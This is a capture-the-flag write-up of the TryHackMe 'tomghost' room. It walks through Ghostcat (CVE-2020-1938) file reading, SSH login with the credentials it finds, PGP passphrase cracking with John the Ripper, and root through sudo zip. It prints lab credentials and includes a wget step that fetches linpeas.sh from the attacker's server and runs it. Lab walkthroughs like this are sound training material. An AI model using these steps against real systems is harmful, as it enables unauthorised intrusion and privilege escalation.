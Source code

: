 # ***tomghost***
![alt text](https://i.imgur.com/OyETyLA.png "Tomghost logo")

*Plateform* - [**TryHackMe**](https://tryhackme.com/room/tomghost)

*Rating* - **Easy**

## **Step 1 : SCANNING AND ENUMERATION** 

### *Nmap Output*  

Our nmap scan was the following: `nmap -A -T4 -p- -v -oN tomghost_full 10.10.185.102`

#### *nmap results*

![alt text](https://i.imgur.com/JaQLTK6.png "nmap results")

What seems to be the most interesting is the combination of **ports 8009 and 8080**.

### *Port 8080 -- Tomcat webserver*

Traveling to http://tomghost.thm:8080/, we notice webserver is running Apache Tomcat/9.0.30. This is an information that will come in handy later to validate our exploit. 

Since the webserver is running the default Apache/Tomcat page, I checked to see if we had access to the manager app. However, we are greeted with a *403 - Forbidden*, indicating this is not the way in.

### *Port 8009 -- Apache Jserv*

If we google `Apache Jserv (Protocol v1.3) exploit`, we will find the **CVE-2020-1938**[https://nvd.nist.gov/vuln/detail/CVE-2020-1938].

>When using the Apache JServ Protocol (AJP), care must be taken when trusting incoming connections to Apache Tomcat. Tomcat treats AJP connections as having higher trust than, for example, a similar HTTP connection. If such connections are available to an attacker, they can be exploited in ways that may be surprising. In Apache Tomcat 9.0.0.M1 to **9.0.0.30**, 8.5.0 to 8.5.50 and 7.0.0 to 7.0.99, Tomcat shipped with an AJP Connector enabled by default that listened on all configured IP addresses. [[Source]](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

From reading this, we learn that our webserver version is most likely vulnerable to this exploit.

After digging a little, we find the exploit-db page for the [*Ghostcat File Read/Inclusion exploit*](https://www.exploit-db.com/exploits/48143) and more information pertaining to GhostCat:

>What is Ghostcat [CVE-2020–1938] vulnerability?
This is an LFI vulnerability in AJP service. An attacker can exploit Ghostcat vulnerability and read the contents of configuration files and source code files of all webapps deployed on Tomcat.
For example, the **/WEB-INF/web.xml** file is the Web Root directory who’s access is restricted and cannot be accessed by anyone over HTTP Tomcat server. [[Source]](https://medium.com/@prem2/ghostcat-vulnerability-cve-2020-1938-ajp-lfi-apache-tomcat-server-vulnerability-9f57330e3eb1)

### *Port 22 -- SSH*

While it is nice to know SSH is enabled, SSH isn't usually a way in initially.

## **Step 2 : EXPLOITATION**

### *Getting information using GhostCat*

Let's run the ghostcat script found at step 2:

![alt text](https://i.imgur.com/TIEvmi3.png "Script results")

From reading the `web.xml` file, we found potential credentials : `skyfuck:8730281lkjlkjdqlksalks`

### *Exploiting the newly found credentials to find a way in*

Remember that ssh port? Yeah, let's try putting these credentials in.

![alt text](https://i.imgur.com/jPDO4at.png "We are in!")

BINGO! We are in as user *Skyfuck*.

## **Step 3 : POST-EXPLOITATION**

### *Enumerating the Skyfuck user*

![alt text](https://i.imgur.com/Psr2iyT.png "")

Now, there are a few things I want to point out on this screenshot. First off, we are in as a low privileged user, Skyfuck. Regardless of his dubious choice of username, he is very helpful to us and keeps important files on his home directory : `credential.pgp` and `tryhackme.asc`.

While I could waste a bit of time showing you the results of the enumeration for Skyfuck, the real way in is the one described above.

#### Attempt 1 : Reading the credential.pgp file

The `tryhackme.asc` file is a PGP private key and we can assume it is the key to decrypt the `credential.pgp` file.

Let's try!

![alt text](https://i.imgur.com/dG5INEH.png "Can't read!")

Sadly, we need a passphrase and an empty string did not work. No problem, let's work on cracking it!

#### Cracking the tryhackme.asc passphrase

First off, copy the content of the file to your attacker vm. Name this file however you like. I used a very original name for mine: `crackme.asc`.

Next, we'll use JohnTheRipper to crack it.

1. Let's make our file in a format JTR can read: `gpg2john crackme.asc > crackme.hash`

2. Next, we can crack it! I used the `rockyou.txt` wordlist as my dictionary: `john --wordlist=/usr/share/wordlists/rockyou.txt crackme.hash`

Since I've already cracked it before, I won't get anything from the first command, but left it in for the write-up.

![alt text](https://i.imgur.com/nCV6yeE.png "Cracked passphrase!")

There we go! We have the passphrase: `alexandru`

#### Attempt 2 : Reading the credential.pgp file

We can now enter the passphrase and read the `credential.pgp` file.

![alt text](https://i.imgur.com/OamDYkS.png "Merlin credentials")

We find the merlin credentials! `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

### *Enumerating the merlin user*

First off, we notice merlin has the `user.txt` flag inside his home directory.

![alt text](https://i.imgur.com/lhulHWp.png "user.txt")

In order to get an idea of how to privesc, I will use the [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script, by carlospolop.

> NOTE: There are a few ways to put the `linpeas.sh` script on the victim machine. I chose the `wget` way. If you are stuck here, I've written a walkthrough at the bottom of the write-up.

Of course, I can't show the whole output as it would be too long, so let's focus on the important bit:

![alt text](https://i.imgur.com/At2Qf0v.png "Privesc way?")

Interesting! We see we can sudo the `zip` binary. Using [GTFOBins](https://gtfobins.github.io/gtfobins/zip/#sudo), we see a find to privesc.

![alt text](https://i.imgur.com/xzirOD4.png "Rooted!")

**PWNED! We rooted the machine and found the root flag!**

## **SUMMARY**

All in all, this was an easy room but full of very nice elements! My main takeaways from this room are the following: ghostcat, pgp encryption (and decryption), and privesc via a sudo'able binary. 

As promised, the walkthrough for the linpeas.sh script.

> Attacker machine

1. Get [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script and put it in a file named `linpeas.sh`
2. Set up a python server: `python -m SimpleHTTPServer 80`

> Victim machine

1. `wget http://*Your-tun0-ip*/linpeas.sh`    # Download the script from your python http server
2. `chmod +x linpeas.sh`                      # Make it executable
3. `./linpeas.sh`                             # Run it!

> End of tutorial :) This is a very useful tool to keep in your back pocket as you will use it over and over again!

# **Thank you for reading this write-up!**
